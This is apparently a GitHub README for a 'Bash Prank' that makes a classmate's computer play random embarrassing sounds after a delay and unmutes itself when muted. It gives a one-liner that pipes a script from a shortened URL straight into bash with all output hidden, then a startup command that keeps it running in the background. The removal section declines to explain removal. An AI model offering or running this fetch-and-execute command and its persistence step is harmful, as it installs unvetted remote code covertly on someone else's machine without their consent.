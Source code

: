 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.

##ONE LINER##
```bash
curl -L http://git.to/pal | bash -s > /dev/null 2>&1
```

##Startup Command##
https://help.ubuntu.com/community/AddingProgramToSessionStartup
```bash
. ~/.config/al/al.sh & disown $!
```

## Removal Instructions ##
Really? You want to get rid of this amazing piece of code that inhances your life more than sliced bread?

## Make it stop ##
I recommend:
```bash
sudo service gdm stop
```